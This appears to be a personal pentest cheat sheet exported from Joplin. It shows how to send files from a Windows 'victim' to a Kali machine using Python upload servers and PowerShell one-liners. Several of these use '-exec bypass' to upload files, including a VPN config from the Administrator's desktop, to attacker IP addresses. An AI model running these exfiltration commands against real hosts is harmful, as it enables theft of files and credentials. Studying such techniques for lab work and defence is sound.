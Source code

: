 Web Server

Download or Upload files by setting up a webserver

From Client(Victim):

# Download: Just turn on webserver in the folder

> python2 -m SimpleHTTPServer 8000
> 
> sudo python3 -m http.server 8001

# Upload:

Turn on the upload server in /var/www/html: The github to get the file is: https://gist.github.com/UniIsland/3346170

> python3 http-server.py -p 8000 --no-ssl

On the client side, Use powershell commands to send the file

> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', $FullPath)
> 
> powershell -nop -exec bypass -c "(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'C:\\Users\\Administrator\\Desktop\\lincoln.lg.ovpn')"

We can also do multiple files in the same folder at one go

> foreach($item in (dir)){ (New-Object System.Net.WebClient).UploadFile('http://192.168.49.154:8000/', $item.FullName)}

If we want to send text, we can use PUT command

> Invoke-RestMethod -Uri "http://127.0.0.1:8000/Hello.txt" -Method PUT -Body "Hello"

# Old upload method:

- Start http server in /var/www/html/:
    - sudo python2 -m SimpleHTTPServer 8001
- Run the following powershell code in the Windows Host:
    - powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to="" upload="">')"</file>
- Find the file in Kali under /var/www/uploads/

> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'

https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9

# UploadServer

python3 -m uploadserver

id: 6542c907ee3d4b659b0fd7588c5dbe48
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-17T09:41:31.093Z
updated_time: 2022-05-19T09:46:41.121Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T09:41:31.093Z
user_updated_time: 2022-05-19T09:46:41.121Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1